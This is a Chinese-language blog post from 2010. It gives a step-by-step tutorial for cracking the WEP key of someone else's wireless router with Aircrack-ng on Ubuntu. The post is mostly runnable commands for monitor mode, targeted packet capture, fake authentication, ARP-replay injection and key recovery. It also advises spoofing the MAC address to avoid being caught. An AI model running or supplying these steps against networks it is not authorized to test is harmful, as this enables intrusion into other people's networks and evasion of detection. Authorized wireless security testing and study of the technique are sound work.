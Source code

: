 ```yaml
---
author: admin
comments: true
date: 2010-06-14 03:06:56
layout: post
slug: ubuntu10-04-aircrack-ng-hack-wiless-router
title: ubuntu10.04 下使用Aircrack-ng破解无线路由AP密码
wordpress_id: 617
categories:
- ubuntu
- 问题解决
---
```


一:工具介绍

 无线路由破解工具 Aircrack-ng ，官方网站_[http://www.aircrack-ng](http://www.aircrack-ng/)[ .org](http://www.aircrack-ng .org)_

 Aircrack-ng工具包有很多工具，工具主要有以下几个：

    airmon-ng 处理网卡工作模式  

	 airodump-ng 抓包  

	 aircrack-ng 破解  

	 aireplay-ng 发包，干扰  

 每个工具的具体参数选项就不一一介绍了,详情请参考原作者:[here](http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx)

 其他必须的linux命令

	 ifconfig 查看网卡状态及参数

	 macchanger 伪造 MAC  

	 iwconfig 主要针对无线网卡的工具 (同 ifconfig)  

	 iwlist 获取无线网络的更详细信息

二: 前期准备

 安装工具包: 

     sudo apt-get install aircrack-ng

 确保自己的无线网卡已经打开

 ifconfig 显示无线网卡的MAC地址,记下以便日后使用

三:大致步骤描述

 1. 修改无线网卡状态：先 down 掉
 2. 伪造无线网卡的 MAC 地址：安全起见，减少被抓到的可能
 3. 修改网卡工作模式：进入Monitor状态，会产生一个虚拟的网卡
 4. 修改无线网卡状态： up
 5. 查看网络状态，记录下 AP 的 MAC 和本机的 MAC ，确定攻击目标
 6. 监听抓包：生成 .cap 或 .ivs
 7. 干扰无线网络：截取无线数据包，发送垃圾数据包，用来获得更多的有效数据包
 8. 破解 .cap 或 .ivs ，获得 WEP 密码，完成破解

 改变MAC地址请参考:[here](http://www.path8.net/tn/archives/40)

四:具体实践操作

 1将无线网卡down掉

	 sudo ifconfig wlan0 down 

 2 鉴于是实验,也就是折腾,不打算很邪恶,就没有做三.2这一步,这样以来第一步没有多大必要

 3启动无线 网卡 的监控模式

	 sudo airmon-ng start wlan0 

 4查看采用wep 加密的在线AP,ctrl+c退出,保留此终端

	 sudo airodump-ng mon0 

 5 打开另一个终端,输入以下命令.c后面的6为AP工作频道,替换为要破解的AP相应的工作频道即可.--bissid后面的AP's MAC 是要欲破解AP的MAC地址,也做相应替换,-w后的wep的是抓下来的数据包DATA 保存的文件名(可以随便取名)，然后回车开始抓包

	 sudo airodump-ng -c 6 --bssid AP's MAC -w wep mon0 

 6 再另开一个终端，输入以下命令.ESSID替换为要破解的AP相应的ESSID,AP's MAC也做相应的替换,My MAC是自己的无线网卡的地址.此步骤用来AP建立虚拟连接.

	 sudo aireplay-ng -1 0 -e ESSID -a AP's MAC -h My MAC mon0

 7 再打开一个终端,输入以下命令.在6步骤建立虚拟连接成功后,进行注入.同理AP's MAC和My MAC也应该做相应的替换.现在步骤3中数据包应该不断增长。

	 sudo aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b AP's MAC -h My MAC mon0

 8收集有5000个以上的DATA之后,另开一个终端 ,输入以下命令.进行解密(如果没算出来的话，继续等，Ubuntu aircrack-ng会在DATA每增加多5000个之后就自动再运行 ，直到算出密码为至)

	 sudo aircrack-ng wep*.cap

 9 如果没有出现意外，你应该会很高兴的看到KEY FOUND!破解出密码后在终端中输入 sudo airmon-ng stop mon0 关闭监控模式，不然无线网卡会一直向刚刚的AP进行注入的，用ctrl+c退出或者直接关闭终端都是不行的，除非重新启动电脑。

 参考帖子: [http://hi.baidu.com/jasey_wang/blog/item/a48a4bb6b3322df931add1cc.html](http://hi.baidu.com/jasey_wang/blog/item/a48a4bb6b3322df931add1cc.html)

 原帖:[http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx](http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx) 

引用请注明作者和来源,鄙视抄袭冒充。本文原创（技术说明文档由本人参照英文原文翻译）,作者:MHY_MHY, email:mayc66@gmail.com,欢迎指出错误.最初发表在 [http://blog.csdn.net/mhy_mhy](http://blog.csdn.net/mhy_mhy) ,最后修改17:00 2008/11/6。

